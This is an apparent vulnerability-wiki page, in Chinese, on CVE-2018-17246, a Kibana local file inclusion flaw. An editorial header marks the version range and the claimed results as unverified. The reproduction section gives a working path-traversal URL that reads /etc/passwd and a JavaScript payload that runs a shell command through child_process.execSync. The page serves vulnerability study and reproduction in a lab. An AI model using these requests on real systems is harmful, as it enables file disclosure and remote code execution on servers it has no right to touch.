


# （CVE-2018-17246）Kibana Local File Inclusion

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：文件包含端点；RCE另需本地写入JS文件；版本范围疑误
- 证据范围：与24正文及示例高度同文，本篇额外声称最终包含成功但仅图片

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0受影响5.6.13到6.4.3疑将两个分支修复版本误作区间，需官方确认
- 图片路径尾部重复残片
- 本地docker写入是实验前置，不能证明远程上传能力
- 合并24与27共同正文时保留本篇额外结果但标注未视检

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Kibana 为 Elassticsearch
设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

二、漏洞影响
------------

Kibana 5.6.13到6.4.3

三、复现过程
------------

直接访问如下URL，来包含文件`/etc/passwd`：

    http://www.0-sec.org:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

KibanaLocalFileInclusion/media/rId24.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们将如下代码上传到服务器的`/tmp/vulhub.js`：

    // docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
    export default {asJson: function() {return require("child_process").execSync("id").toString()}}

成功包含并返回命令执行结果：

KibanaLocalFileInclusion/media/rId25.png)
